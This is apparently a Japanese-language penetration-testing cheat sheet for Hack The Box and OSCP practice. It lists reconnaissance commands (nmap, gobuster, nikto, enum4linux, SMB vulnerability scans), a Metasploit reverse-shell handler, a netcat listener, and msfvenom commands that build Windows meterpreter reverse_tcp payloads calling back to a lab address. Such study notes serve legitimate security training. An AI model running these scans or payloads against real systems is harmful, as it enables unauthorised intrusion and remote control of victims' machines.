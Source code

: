 
---

# 共通

## 偵察

### 通信相手のOSを知る
```bash
ping -c 1 <IP>
````

- ttlの時間で判別する
    - `ttl=64` → Linux OS/Mac OS
    - `ttl=128` → Windows OS
    - `ttl=255` → UNIX OS/ネットワーク機器

---

### ポートスキャン

```bash
sudo nmap -vvv -sCV -T4 -p0-65535 -Pn <IP>
```

### CMS、JavaScriptライブラリ、ウェブサーバ、バージョン番号、ウェブフレームワークの取得

```bash
sudo whatweb http://<IP>
```

---

### Webサーバ上のディレクトリ列挙

- 特定のページにアクセスできる隠しファイルやフォルダを見つけるのに最適

```bash
gobuster dir -u http://<IP> -w /usr/share/wordlists/dirb/common.txt
```

- **ワードファイル候補**

```
/usr/share/wordlists/dirb/big.txt
```

---

### サブドメインの列挙

```bash
gobuster dns -d <IP> -w /usr/share/wordlists/subdomains.txt
```

---

### VHOST（仮想ホスト）の列挙

```bash
gobuster vhost -u http://<IP> -w /usr/share/wordlists/vhosts.txt
```

---

### サイト脆弱性スキャン

```bash
nikto -h http://<IP>
```

### FTP匿名ログイン

```bash
ftp <IP>
```

- ユーザー名: `anonymous` または `ftp`
- パスワード: 空欄でEnter

---


## Webサイト情報取得

### Burp Suiteのブラウザで確認

### `curl`での確認

`md`ファイルなどはブラウザよりも`curl`での確認が見やすい。

```bash
curl -k <URL>
```

- `-k`：エラーを無視するオプション

## Exploit
### Metasploit 

#### リバースシェルリスナーの設置


```bash
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST <IP>
set LPORT <PORT>
set ExitOnSession false
exploit -j -z
```




---

#### **セッション管理**

#### **セッション一覧表示**

```bash
sessions -l
```

#### **セッション接続・セッションに戻る**

```bash
sessions -i <セッション番号>
```

####  **セッション全終了**
se
```bash
sessions -K
```


---

#### **特権昇格の発見とエクスプロイト**

##### **local_exploit_suggester を使う**

Mesterpreterでユーザー権限でセッションが確立している時、**`local_exploit_suggester`** モジュールを使用して、ターゲットシステムに適した特権昇格エクスプロイトを提案させることができます。

```bash
use post/multi/recon/local_exploit_suggester
```

---




---



## 脆弱性の探索

### XSS (Cross Site Script)

HTBやOSCPではXSSの脆弱性を使うことはないため、真っ先に除外する。  
XSSは他のユーザーが引っかかる必要があるが、HTBやOSCPには対象が存在しない。

---

### シェルアップデート
- linux
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```
- windows
- 方法 : rlwrap は、コマンドラインの入力履歴や補完機能を提供するラッパープログラムです。これを nc と組み合わせることで、シェルの機能を強化できます。

```bash
rlwrap nc -lvnp <ポート番号>  # リスナー側 (攻撃者マシン)
```

---

# Windows固有

### TCPポート 445・TCP/UDPポート 139が空いている場合

- **NmapでSMBの脆弱性をスキャン**

```bash
nmap --script=smb-vuln* <IP>
```


---

### Sambaを介して共有情報を取得

- **enum4linuxツール**  
    Sambaを介して情報を抽出できるツール。
- 取得できる情報:
    - グループメンバーシップ情報
    - 共有情報
    - ワークグループまたはドメインメンバーシップ
    - リモートオペレーティングシステムの識別
    - パスワードポリシーの取得

---

### Windows検索
- Cディレクトリを再帰的に検索
- 大文字も小文字も関係なく検索

```bash
dir /s /b C:\user.txt
```


```bash
dir /s /b C:\root.txt
```


---

### **Msfvenom Windowsペイロード作成**

#### **32ビット用ペイロード生成**

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.34 LPORT=8888 -f aspx > shell2.aspx
```

#### **64ビット用ペイロード生成**

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.34 LPORT=1234 -f exe > stageless_payload_x64.exe
```

---

